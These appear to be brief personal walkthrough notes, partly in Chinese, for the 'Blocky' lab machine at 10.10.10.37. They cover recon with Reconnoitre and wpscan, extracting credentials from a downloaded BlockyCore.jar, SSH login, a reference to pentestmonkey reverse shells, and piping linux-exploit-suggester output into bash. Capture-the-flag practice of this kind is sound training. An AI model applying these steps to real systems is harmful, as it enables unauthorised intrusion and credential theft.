

# Blocky

google -> codingo github
``` 
python /opt/Reconnoitre/reconnoitre/reconnoitre.py -t 10.10.10.37 -o `pwd`  --services 
```
访问页面，下载jar包BlockyCore.jar, 解压，得到账号密码

``` 
ssh notch@10.10.10.37

```
* wpscan
``` 
wpscan --url http://10.10.10.37 --enumerate u,ap,tt,t --log `pwd`/10.10.10.37/scans/10.10.10.37_wpscan.log 

```
google -> pentestmonkey reverse shell
``` 
bash linux-exploit-suggester.sh | bash 
```


